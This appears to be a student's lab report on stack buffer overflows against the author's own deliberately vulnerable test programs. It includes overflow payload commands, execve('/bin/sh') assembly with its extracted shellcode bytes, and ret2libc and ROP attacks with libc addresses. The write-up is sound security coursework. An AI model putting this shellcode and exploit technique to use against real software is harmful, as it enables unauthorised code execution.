


# Lab 4: Shellcoding

## Task 1 : Basics of buffer overflows

### A) Using program with improper input validation and analyzing overflow

* What is the role of the rip (instruction pointer) register and ret instruction?

**rip** register is a special-purpose register that holds the memory address of the next instruction to execute in the program. **ret** instruction transfers program control to a return address located on top of the stack. If the **rip** register can be overflown with another memory address, rather than the programs wanted one, **ret** command will transfer control of the program to that memory address. 

* What is causing the buffer overflow? (Why it is happening?)

Reading the sourcecode, the function takes in a CLI argument to parse that it then gives to the function *stackoverflow*. The function defines itself a buffer of 20 bytes to be used to store the incoming character string. No checking is done to ensure that the incoming string is larger than that nor is the buffer dynamically allocated, which causes the function to overflow when the given argument is copied into the buffer, if the argument is larger than 20 bytes.

* Provide a screenshot and command of situation, where you managed to reach instruction pointer register, when adding only **one byte** into this register.

Testing was done on both a 32-bit and 64-bit programs. 


***For the 32-bit program***

Running the program with only 20 A letters and using breakpoints after the program reads the arg and before returning, it is possible to see what goes on inside the registeries.


As can be seen, there is some overflow happening, but not enough to reach the instruction pointer. With 20 A letters, five registeries are full of A letters, but there are still three registeries before the instruction pointer register. Simple calculation gives the answer of 33 A letters to overflow one byte of the instruction pointer register.


Success!

***For the 64-bit program:***

Here can be seen that the registers do overflow when adding 20 "A" letters into the program argument, but not enough to reach the instruction pointer. 


Since 20 A letters take the space of five memory registers, and there are still five registers to go before reaching the instruction register. With simple math the amount of A letters required to overflow the instruction register would be 41 A letters. Testing it out the results are the following.


Success!

### B) Adding hidden (non-used) function to previous program. (And still executing it)

* Show your new function here as code snippet:

    ```c
    int secret(){
        printf("You shouldn't be here\n");
        return 1;
    }
    ```

***For the 32-bit program:***

First by disassembling the secret function, its first memory register can be seen. In this case it is **0x5655623e**. Using a breakpoint at the return call for the *stackoverflow* function, lets figure out what needs to be added to the command to get to that register. Since it is already known that  32 A letters is enough to reach the register, we can continue straight to padding with the right info. What needs to happend is that the last two bytes need to become **623e**. 

After some testing and remembering LIFO means (aka I have to input the whole memory slot name), it was quite easy to get the proper command.


The command was 

```
r "$(python -c 'print("A" * 32 + "\x3e\x62\x55\x56")')"
```

***For the 64-bit program:***

Since the 32-bit business already taught us much, the 64-bit program should be easy to break. Again, disassembling the secret function gives the memory address of **0x00005555555551be**. Putting breakpoints to the call right after overflow and ret call to see what goes where, it should be simple to break the command chain.

And to surprise of no one, it was not so simple. Constructing the command like in the 32-bit program did absolutely nothing. After some debugging the problem seems to be that the **\xbe** always adds a **c2** to the command if using bytes in the print, because of the encoding issue. 

After multiple hours of banging my head against the wall I had to give up. Since the function is never accessed by the program, it doesn't get a proper memory register and I was not able to find a way to get that added without the **c2** with it. I did try multiple different things like adding another print like this

```terminal
r "$(python -c 'print("A"*40);print(<input>)')"
```

And while it did do some things I was still not able to get that **be** part to ever get added to the memory. It has to be possible somehow, I just don't know how yet.

## Task 2 : Arbitrary code execution

### A) Making a simple program to open Shell.

* Paste your C - source file here as code snippet. 

    ```c
    #include <stdlib.h>
    #include <stdio.h>

    int main(void){
        int shell = system("/bin/sh");
        return shell;
    }
    ```

## B) Transforming functionality to machine instructions

* Add source file of your assembly program here as code snippet.
    ```arm
    global _start

    section .text
    _start:
        xor eax, eax ; XOR eax into zero
        push eax ; push eax into stack
        
        push 0x68732f6e ; push //bin/sh in reverse to stack
        push 0x69622f2f

        mov ebx, esp ; ebx pointing to //bin/sh using esp

        push eax ; push null into stack again
        mov edx, esp ; edx to point to null

        push ebx ; //bin/sh to top of stack
        mov ecx, esp ; ecx to point to //bin/sh

        mov al, 11 ; al to 11 so no nulls
        int 0x80 ; interrupt call

    ```

The file can also be found [here](./src/Opener.nasm). I followed [this](http://hackoftheday.securitytube.net/2013/04/demystifying-execve-shellcode-stack.html) guide to make this. To make it assemble with ld I had to use the following.

```
nadm -f  elf32 Opener.nasm -o Opener.o
ld -m elf_i386 Opener.o -o Opener
```

* Describe how did you turn your assembly code to shellcode

Using objdump we get the opcodes for the shellcode.


Extracting all these by hand would not be too bad since there are not that many opcodes, but by using this handy little snippet

```
bjdump -d Opener -M intel|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

It was possible to extract the shellcode in its proper form.

```shell
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Alright, then using a [test script](./src/test.c) it was possible to open the shell.



### C) Making the final payload and executing it

How did you find the required information to open shell by overflowing input?

[Using](http://www.cs.umd.edu/class/fall2017/cmsc414/readings/stack-smashing.pdf) [these](https://www.codeproject.com/Articles/5165534/Basic-x86-64bit-Buffer-Overflows-in-Linux) [as](https://medium.com/codex/buffer-overflows-shellcode-and-memory-corruption-51f546ab00ab) [material](https://reverseengineering.stackexchange.com/questions/2995/illegal-instruction-exploiting-sample-buffer-overflow-code) I finally understood how to do this stack overflowing properly.

Since the payload is 25 bytes long and the return address is 8 bytes long, we get a 33 bytes long sequence. That's not enough bytes what the hell. Have to add a bigger buffer, like 100 size.

Now that the buffer is bigger, to reach the return address while giving the new shell command, the buffer needs to be 43 NOP commands. Then there was a lot of stupid things in between that I have no memory of, but basically I spent close to 5 hours just bumbling in the dark wondering why stuff didn't work when it should. 

I got it working.


Finally gdb executed the shell command and I was happy. Next problem was that the memory spaces between gdb and real commands are quite different, but that handled itself with some blind trying out. I did read [this](https://reverseengineering.stackexchange.com/questions/2995/illegal-instruction-exploiting-sample-buffer-overflow-code) to understand why exactly the memories are different.



## Task 3 : Defeating No-eXecute

### A) Return-to-libc (aka ret2libc)

Using gdb find command and searching through libc files, we can get an address for /bin/sh without any need to create environment variables.


```
0xf7db30d0
```

Okay then the addresses for system and exit.

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7c46f30 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7c395d0 <exit>
```

According to the ret2libc paper, for the attack to work it requires first for the system address to be added to the stack, then the next four bytes get popped as system() commands return address, until finally the last 4 bytes are taken as a command for the system. The extra four bytes inbetween can be basically nothing, but using exit() commands address allows the process to exit cleanly.

Following the ret2libc paper to the letter will not work. This is because the ret2libc uses only 132 bytes as fodder. Using gdb and dissassembling the bug function shows the following. 


Looking at the lea assembly commands we can see that the address takes 136 bytes (0x88 = 136 bytes) so in this case we require 140 bytes as the buffer.


With the correct buffer amount the attack finally works in gdb. And trying the same command outside gdb nets the following.


### B) Return-oriented programming (aka ROP)

Finding the suitable memory addresses was easy when following the [example](https://github.com/pintti/cybsec_repo/blob/main/CompSec/Lab4_Introduction_to_Shellcoding/Tutorials/Tutorial3B_Radare2_and_gadgets.md). Let's start by getting the pop ebx;ret gadget.


Now since this is a playback of what I did in a huge sequence I did enable the search to be only within libc limits by using 

```
e search.from = <libc start address>
e search.to = <libc stop address>
```

and from there got the last possible pop ebx;ret; command. Obviously before that I needed to get the libc limits which can be seen here 


As you can see libc starts at **0xf7c00000** and ends at **0xf7e20000**. 

Next step was to get the offsets of the needed functions. Like I said I got the pop ebx;ret address using limits and from that I got an offset of **0x00196a7d** for the gadget. I did the math by subtracting the libc start point from the gadget address, but since I don't have that on hand have this.

```
[0x565561d6]> ?X 0xf7c00000 + 0x00196a7d
f7d96a7d
```

So the address of the gadget is **0xf7d96a7d**.

Next up the putchar and exit functions. Even simpler using *dmi* command.


With these and a little modifying of the source code I was able to get the ***ROP_hello.py*** to print "Hello, world!"


Well that was done basically following a guide so next up is the system and /bin/sh calls.

System can again be gotten with dmi, while /bin/sh can be gotten with **/ /bin/sh** call. Then just count the offset again.


Alright, now we should have all the offset required for the rop chain to work. Let's try it out.


Alright it works! Well, at least somewhat. Kinda. . . It simply crashes in the end. . .

So what I think causes this little problem seems to be the **p.interactive()** in the [source code](./src/ROP_hello_1.py). [Here](https://reverseengineering.stackexchange.com/questions/21524/receiving-got-eof-while-reading-in-interactive-after-properly-executing-system) is one post about this very same problem. Obviously taking out the **p.interactive()** call makes it so that the code doesn't crash, but it doesn't open the shell either. Still this is already what could be called a success.

Well mama didn't raise no quitter, so I tried all kinds of stuff to get it to break cleanly. Using **stdin=PTY** got some pretty clean results, but unfortunately the p.interactive still activates after the system commands.


Another problem seemed to be the logger function. The logger function would break stuff in interactive mode, but even disabling that didn't stop interactive mode opening a useless shell in eof mode after the system exits.

Alright, mama didn't raise no quitter, but I have to admit after some hours of trying to get it to work properly I wasn't able to, and wasn't going to lose too much sleep because of this. It works well enough, that's fine for me.


(this has two system(/bin/sh) calls)
